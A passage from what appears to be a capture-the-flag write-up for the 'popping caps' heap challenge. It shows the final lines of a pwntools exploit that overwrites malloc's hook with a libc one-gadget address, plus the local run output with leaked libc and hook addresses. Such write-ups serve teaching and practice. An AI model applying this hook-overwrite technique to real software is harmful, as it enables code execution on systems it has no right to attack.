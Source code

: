 ```
write(p64(mallocHook))

malloc(0x0)

write(p64(libcBase + 0x10a38c))

target.interactive()
```

When we run it:
```
$ python exploit.py
[+] Starting local process './popping_caps': pid 3821
[*] '/home/guyinatuxedo/Desktop/popping/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc base: 0x7f08f11fa000
malloc hook: 0x7f08f15e5c30
free hook: 0x7f08f15e78e8
salvation: 0x7f08f15e5b90
You have 7 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
How many:
 
BANG!
You have 6 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
Whats in a free:
 
BANG!
You have 5 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
Whats in a free:
 
BANG!
You have 4 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
 
How many:
 
BANG!
You have 3 caps!
```